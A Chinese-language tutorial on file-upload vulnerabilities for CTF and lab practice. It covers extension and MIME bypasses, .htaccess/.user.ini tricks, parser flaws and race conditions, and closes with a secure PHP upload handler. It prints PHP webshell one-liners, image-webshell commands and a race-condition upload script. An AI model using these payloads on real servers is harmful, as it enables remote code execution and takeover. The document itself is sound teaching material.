

> 文件上传漏洞学到现在最大的感触就是要有自己的一套思维，不能光生搬硬套网上的payload，打靶场不能只照着wp去操作，一定有自己思考的过程

---

## 目录

1. [漏洞本质与原理](#一漏洞本质与原理)
2. [校验机制总览](#二校验机制总览)
3. [前端校验绕过](#三前端校验绕过)
4. [服务端黑名单绕过](#四服务端黑名单绕过)
5. [服务端白名单绕过](#五服务端白名单绕过)
6. [解析漏洞](#六解析漏洞)
7. [内容校验绕过（图片马与二次渲染）](#七内容校验绕过图片马与二次渲染)
8. [逻辑漏洞](#八逻辑漏洞)
9. [配合其他漏洞](#九配合其他漏洞)
10. [实战排查流程（Checklist）](#十实战排查流程checklist)
11. [防御措施](#十一防御措施)
12. [练习靶场与工具](#十二练习靶场与工具)

---

## 一、漏洞本质与原理

文件上传漏洞（File Upload Vulnerability）是指：

> Web应用在处理用户上传文件时，没有对上传文件进行严格限制，导致攻击者可以上传恶意文件并执行，从而获得服务器权限。
>
> 漏洞上传：
>
> ```
> 攻击者上传木马文件
> ↓
> 服务器保存
> ↓
> 访问木马文件
> ↓
> 执行恶意代码
> ↓
> 控制服务器
> ```


其实有个需要注意的点就是：

**文件上传题不只是想办法传一个 PHP 文件。文件以什么名字保存、保存到哪、能不能访问、最后会被谁处理，这几处都可能出问题。**

大致过程：

```
找校验点 → 让文件落地 → 找到文件路径 → 想办法触发 → 拿到题目目标
```

上传成功和代码执行是两回事。文件只能下载，和文件能被 PHP 等 解释，差别很大。常见触发点如下：

| 触发方式 | 说明 |
|---|---|
| 直接访问 | 上传目录可访问且可执行脚本，直接访问 `shell.php` |
| 文件包含 | 图片马（内容伪造为图片，尾部夹带代码）配合 LFI 触发 |
| 解析差异 | 利用 Apache / Nginx / IIS 的历史版本或错误配置形成解释链 |
| 配置文件 | 在服务器允许用户级配置时，用 `.htaccess` / `.user.ini` 改变解析行为 |
| 命令拼接 | 文件名进入系统命令，配合命令注入 |

---

## 二、校验机制总览

遇到“上传失败”先别急着换后缀，先看看拦截发生在哪一层：

| 校验层 | 校验内容 | 典型绕过 |
|---|---|---|
| 扩展名（黑名单） | 禁止 `.php .jsp .asp` 等 | 大小写、双写、已配置的等价后缀、配置文件 |
| 扩展名（白名单） | 只允许 `.jpg .png .gif` | 需要解析差异、文件包含等组合缺陷 |
| MIME 类型 | `Content-Type: image/png` | 改包伪造 |
| 文件头 / 内容 | 校验文件魔术字节或尝试解码 | 伪造文件头、合法图片载荷、二次渲染差异 |
| 大小 / 数量 | 限制体积与个数 | 多文件参数污染、压缩包 |
| 逻辑层 | 先存后校验、落地目录可控 | 条件竞争、路径穿越、文件覆盖 |

做题感受就是

最好一次只改一个地方。不然扩展名、MIME 和文件内容一起改，很难看出到底是哪一步起作用

---

## 三、前端校验绕过

常用做法：

1. **禁用或修改 JS**：禁用 JavaScript，或在 DevTools 中修改校验函数和事件处理器。
2. **直接改包**：用 Burp Suite 或 Yakit 拦截上传请求，修改 `filename` 与 `Content-Type` 字段：

```
原始请求：
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="a.jpg"
Content-Type: image/jpeg

<?php @eval($_POST['1']); ?>

修改为：
------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="a.php"
Content-Type: image/jpeg
```


---

## 四、服务端黑名单绕过

黑名单题先看它怎么取后缀、怎么比较、过滤几次。下面这些是常见测试项，但都吃环境，不能看到 payload 就直接套。

### 1. 大小写绕过

```
shell.php  →  shell.pHp / shell.Php / SHELL.PHP
```

只在黑名单区分大小写、后端 handler 又能认混合大小写时有用。Windows 文件系统通常不区分大小写，Linux 通常区分；最后还是看 Web 服务器怎么配。

### 2. 双写绕过

```
shell.pphphp  →  过滤删掉中间的 "php" →  shell.php
```

对应 `str_ireplace("php", "", $name)` 这类只替换一次的写法。如果循环过滤，双写一般没用。

### 3. 末尾点、空格与 NTFS ADS

```
shell.php.       →  部分 Windows 文件 API 规范化为 shell.php
shell.php        →  末尾带空格；部分 Windows 文件 API 会去除空格
shell.php::$DATA →  在特定 Windows + NTFS 文件 API 组合中指向默认数据流
```

重点是校验时的名字和 Windows 实际落盘后的名字不一致。Linux 会保留末尾点和空格；`::$DATA` 也只和 NTFS 场景有关，不是通用截断。

### 4. 等价后缀

```
.php   →  .phtml / .php3 / .php4 / .php5 / .pht 等
```

前提是黑名单只封了 `.php`，而且服务器真的给替代后缀配了 PHP handler。不要默认 `.phtml`、`.php5` 一定能执行；`.phps` 很多时候只是源码高亮，甚至没有配置。

### 5. 用户级配置文件

**`.htaccess`（Apache）**——上传内容为：

```apache
AddType application/x-httpd-php .jpg
```

能否生效看两个地方：Apache 是否允许 `AllowOverride FileInfo`，当前 PHP handler 是否接受这个映射。换成 PHP-FPM 或禁掉覆盖后，这招经常失效。

**`.user.ini`**——上传内容为：

```ini
auto_prepend_file=filename //包含在文件头 
auto_append_file=filename //包含在文件尾
```

这个点一开始容易绕晕，可以把它拆成“目录级配置 + 触发 PHP 文件 + 被包含文件”三部分来看

```
例如：
/upload/
├── .user.ini
├── 1.png
└── index.php
访问：
http://target/upload/
实际流程是：
GET /upload/
→ Web 服务器寻找默认首页
→ 找到 /upload/index.php
→ 把 index.php 交给 PHP-FPM
→ PHP 读取 /upload/.user.ini
→ 先包含 /upload/1.png
→ 再执行 /upload/index.php
```



`.user.ini` 是 PHP CGI/FastCGI 模式下的目录级配置文件。若 `user_ini.filename` 未被禁用，PHP 执行该目录中的 PHP 脚本时会读取它。通过 `auto_prepend_file = "1.png"`，可以让 PHP 在执行目标脚本前包含 `1.png`。`1.png` 中仍需存在 PHP 代码，而且目录中要有可访问的 PHP 文件用于触发。直接访问图片不会执行其中的 PHP 代码。

### 6. %00 截断（老版本 PHP < 5.3.4）

```
shell.php%00.jpg  →  落地为 shell.php
```

旧版 PHP 或底层 C API 会把空字节当作字符串结束。注意 `%00` 要经过 URL 解码才是空字节，直接写在 multipart 的 `filename` 里通常只是三个普通字符。PHP 5.3.4 之后基本修掉了，现在主要见于复现老环境的题。

### 7. 过滤顺序与特殊字符

如果题目会删除文件名里的某些字符，比如 `[]`，就直接把过滤前后写出来算：

```
目标字符串 - 被过滤的字符 = 最终落地的文件名
```

举例：

| 过滤规则 | 输入文件名 | 落地结果 | 是否可行 |
|---|---|---|---|
| 删掉 `[ ]` | `c[a]t.php` | `cat.php` | ✅ 绕过了"禁止 cat" |
| 删掉 `[ ]` | `c{a}t.php` | `c{a}t.php`（`{}` 不在黑名单，原样保留） | ❌ 没凑出目标字符串 |
| 删掉所有非字母数字 | `c{a}t.php` | `cat.php` | ✅ |
| 白名单只留 `[a-zA-Z0-9._-]` | 任何特殊字符 | 被替换/拒绝 | ❌ 换什么字符都没用 |

> 这里利用的是过滤顺序，不是 shell 通配符。只有文件名后来被拼进 shell 命令，`[]` 和 Bash 的 `{}` 展开才有关系。

---

## 五、服务端白名单绕过

白名单题里，单改 MIME 或补一个图片头，绕不过真正的扩展名检查。通常还得找解析差异、文件包含、配置文件或者上传逻辑的问题。

### 1. 绕过 MIME 层

如果只看请求里的 `Content-Type`，Burp 里直接改。这个字段是客户端自己填的：

```
Content-Type: image/jpeg
```

### 2. 绕过浅层文件头校验

只校验文件头时，在文件开头拼上图片标识：

```php
GIF89a
<?php @eval($_POST['x']); ?>
```

常见文件签名：

| 格式 | 文件头 |
|---|---|
| GIF | 47 49 46 38 39 61（GIF89A）或 47 49 46 38 37 61（GIF87A） |
| PNG | 89504E47 |
| JPG | FF D8 FF |

有文件头不代表真能当图片解码。图片马也不会自己执行，还要搭配文件包含、用户配置或错误等配置

### 3. 多扩展名与名称解析差异

Apache 不是只看最后一个后缀，而是会分别处理每个后缀

例如：

```
AddHandler application/x-httpd-php .php
AddType image/jpeg .jpg
```

对于：

```
shell.php.jpg
```

Apache 可能得到：

```
.php → 使用 PHP 处理
.jpg → Content-Type 是 image/jpeg
```

两项可以同时存在，所以文件仍可能被 PHP 执行。

### 4. %00 截断（白名单场景）

```
shell.php%00.jpg  →  截断为 shell.php
```

---

## 六、解析漏洞
### 1. Apache 多后缀解析

```shell.php.jpg```

Apache 会处理文件的多个后缀。在某些配置下，`.php` 仍会让文件交给 PHP 执行；现代 PHP-FPM 配置通常不会。具体流程见上

### 2. Nginx 路径解析

```
/upload/shell.jpg/1.php
```

如果 Nginx 和 PHP-FPM 配置不严，PHP 可能向前找到真实存在的 `shell.jpg`，并把它当作 PHP 文件执行。配置了 `try_files` 等限制后通常无法利用。

### 3. IIS 6.0 解析

```
shell.asp;.jpg
```

IIS 6.0 可能忽略分号后面的内容，把文件当成 `shell.asp` 解析。

目录名也可能触发：

```
shell.asp/xxx.jpg
```

如果目录名以 `.asp` 结尾，目录里的文件可能被当作 ASP 解析。


---

## 七、内容校验绕过（图片马与二次渲染）

### 1. 图片马构造

**直接拼接**（基础版）：

```bash
# Linux
echo 'GIF89a<?php @eval($_POST["x"]);?>' > shell.gif
# 或把 PHP 代码追加到正常图片尾部
cat shell.php >> a.jpg
```

**结构合法版**：把代码塞进图片注释、EXIF 或附加数据块，通常能过 `getimagesize` 这类检查。不过服务端如果用 GD/Imagick 重新编码，元数据多半会被清掉。

### 2. 二次渲染绕过

服务端用 GD 库（`imagecreatefromgif` 等）重新生成图片 → 直接拼接的代码会被抹掉。

**做法**：准备一张原图，让题目处理一次，再对比处理前后的字节。先找稳定不变的区域，再尝试插入。GIF、PNG、库版本和编码参数都会影响结果，没有一个位置能通吃所有题。

```python
# 思路示例：用脚本逐字节 diff 原图与渲染后图片，定位未变化区间
```

### 3. 触发

图片马无法被直接执行，必须配合：

- 文件包含：`?page=upload/shell.jpg`
- `.htaccess`：`AddType application/x-httpd-php .jpg`
- `.user.ini`：`auto_prepend_file=shell.jpg`
- 解析漏洞：Nginx `/shell.jpg/1.php`

---

## 八、逻辑漏洞

### 1. 条件竞争（Race Condition）

场景：服务端"先保存到磁盘 → 校验不通过 → 删除"。删除有窗口期，抢在删除前访问即可执行。

利用时让“上传”和“访问临时文件”一起跑，抢在删除前读到固定回显：

```python
from concurrent.futures import ThreadPoolExecutor, as_completed
import requests

upload_url = "http://target/upload"
probe_url = "http://target/upload/race.php"
payload = b'<?php echo "race-ok"; ?>'

def upload_once():
    return requests.post(
        upload_url,
        files={"file": ("race.php", payload, "application/octet-stream")},
        timeout=3,
    )

def probe_once():
    return requests.get(probe_url, timeout=3)

with ThreadPoolExecutor(max_workers=20) as pool:
    jobs = [pool.submit(upload_once if i % 2 == 0 else probe_once)
            for i in range(200)]
    for job in as_completed(jobs):
        response = job.result()
        if "race-ok" in response.text:
            print("race condition hit")
            break
```

如果服务端会改名，还得先从响应或者命名规律里找到临时文件 URL。

### 2. 路径穿越

文件名含 `../` 控制落地目录：

```
../../shell.php  →  写到上一级目录（可能是可执行目录）
```

这里主要看后端会不会保留路径、会不会再做一次 URL 解码。multipart 的 `filename` 里写 `%2f`，一般不会自动变成 `/`。另外还要试清楚 `/`、`\`、`basename` 和路径规范化分别发生在哪一步。

### 3. 文件覆盖

若文件名可控且不重命名，可覆盖已存在的文件（如覆盖 `index.php`、`config.php`），属于高危逻辑缺陷。

### 4. 目录可控 + 执行目录

有些题只在上传目录里禁脚本。如果文件名能穿越到别的可执行目录，原来的限制就管不到了。

---

## 九、配合其他漏洞

| 组合 | 原理 |
|---|---|
| 上传 + 文件包含（LFI） | 图片马 + 任意文件读取/包含 → RCE |
| 上传 + 命令注入 | 文件名进入 shell 命令，`;`、`|`、`$()` 注入 |
| 上传 + SQL 注入 | 文件名拼入 SQL 查询 |
| 上传 + SSRF | 上传的 URL 触发服务端请求 |
| ZIP 解压 + 路径穿越 | 解压恶意 zip 覆盖任意文件（Zip Slip） |

---

## 十、实战排查流程（Checklist）

我一般按这个顺序排：

1. 先传一张正常小图，把请求和响应留好。
2. 找上传后的文件名和访问路径，看服务端有没有重命名。
3. 扩展名、MIME、文件头分开改，一次只动一个地方。
4. 从响应头、报错、路径格式里猜 Web 服务器、语言和操作系统，但别只信 `Server`。
5. 黑名单先试大小写、双写和已知替代后缀，再看 Windows 文件名特性。
6. 白名单先分清它只看文件头，还是真的解码、重绘了图片。
7. 文件传上去以后，用固定回显确认是否解析。不能执行就继续找 LFI、配置文件或路径问题。
8. 最后再看先存后删、随机文件名、目录穿越、覆盖和压缩包解压这些逻辑点。

**常用验证 payload**：

```php
<?php echo 'upload-ok'; ?>                         // 只验证 PHP 解析
<?php if (isset($_GET['cmd'])) system($_GET['cmd']); ?> // CTF 命令执行
<?php phpinfo(); ?>                                // 查看题目 PHP 环境
```

---

## 十一、防御措施

**安全代码骨架（PHP 7+ 示例）**：

```php
<?php
declare(strict_types=1);

const MAX_UPLOAD_BYTES = 5 * 1024 * 1024;
const MAX_IMAGE_PIXELS = 20000000;

if (!isset($_FILES['file'])
    || !is_array($_FILES['file'])
    || !isset($_FILES['file']['error'], $_FILES['file']['tmp_name'], $_FILES['file']['name'])
    || is_array($_FILES['file']['error'])
    || $_FILES['file']['error'] !== UPLOAD_ERR_OK) {
    http_response_code(400);
    exit('upload failed');
}

$file = $_FILES['file'];
$tmp = $file['tmp_name'];
$size = filesize($tmp);

if (!is_uploaded_file($tmp) || $size === false || $size > MAX_UPLOAD_BYTES) {
    http_response_code(400);
    exit('invalid upload');
}

$allowed = [
    'jpg' => ['mime' => 'image/jpeg', 'type' => IMAGETYPE_JPEG],
    'png' => ['mime' => 'image/png',  'type' => IMAGETYPE_PNG],
    'gif' => ['mime' => 'image/gif',  'type' => IMAGETYPE_GIF],
];

$ext = strtolower(pathinfo((string) $file['name'], PATHINFO_EXTENSION));
if (!isset($allowed[$ext])) {
    http_response_code(415);
    exit('unsupported extension');
}

$mime = (new finfo(FILEINFO_MIME_TYPE))->file($tmp);
$info = @getimagesize($tmp);
$expected = $allowed[$ext];

if ($info === false
    || $mime !== $expected['mime']
    || $info[2] !== $expected['type']
    || $info[0] * $info[1] > MAX_IMAGE_PIXELS) {
    http_response_code(415);
    exit('invalid image');
}

switch ($info[2]) {
    case IMAGETYPE_JPEG:
        $image = @imagecreatefromjpeg($tmp);
        break;
    case IMAGETYPE_PNG:
        $image = @imagecreatefrompng($tmp);
        break;
    case IMAGETYPE_GIF:
        $image = @imagecreatefromgif($tmp);
        break;
    default:
        $image = false;
}

if ($image === false) {
    http_response_code(415);
    exit('decode failed');
}

// UPLOAD_DIR 应位于 Web 根目录外，并预先设置最小权限。
$name = bin2hex(random_bytes(16)) . '.' . $ext;
$path = rtrim(UPLOAD_DIR, DIRECTORY_SEPARATOR) . DIRECTORY_SEPARATOR . $name;

switch ($info[2]) {
    case IMAGETYPE_JPEG:
        $saved = imagejpeg($image, $path, 90);
        break;
    case IMAGETYPE_PNG:
        $saved = imagepng($image, $path, 6);
        break;
    case IMAGETYPE_GIF:
        $saved = imagegif($image, $path);
        break;
    default:
        $saved = false;
}
imagedestroy($image);

if (!$saved) {
    http_response_code(500);
    exit('save failed');
}

echo $name;
```

必须用 Nginx 直接提供上传文件时，可以给上传目录单独配一个静态 location。能放到 Web 根目录外或独立静态域名更省心。

```nginx
location ^~ /uploads/ {
    types { }
    default_type application/octet-stream;
    add_header X-Content-Type-Options nosniff always;
    try_files $uri =404;
}
```

---

## 十二、练习靶场与工具

| 类型 | 名称 | 说明 |
|---|---|---|
| 靶场 | Upload-Labs | 21 关专项练习文件上传，逐关递进 |
| 靶场 | DVWA | 经典综合靶场，含文件上传模块 |
| 靶场 | Pikachu | 中文靶场，覆盖多种 Web 漏洞 |
| 靶场 | PortSwigger Web Security Academy | 文件上传实验覆盖类型校验、路径和解析配置 |
| 靶场 | Sqli-labs 衍生 | 部分关卡含上传与包含组合 |
| 工具 | Burp Suite 或 Yakit | 抓包改包，绕过前端/MIME 校验 |
| 工具 | 蚁剑（AntSword） | 连接一句话 webshell |
| 工具 | 冰蝎 / 哥斯拉 | 加密流量 webshell 管理（进阶） |
| 工具 | exiftool | 往图片 EXIF 里插 payload |

---

## 最后记一下

> 先找过滤点，再找落地路径和触发方式。上传成功不等于解析成功，网上看到的 payload 也不一定适合题目环境。
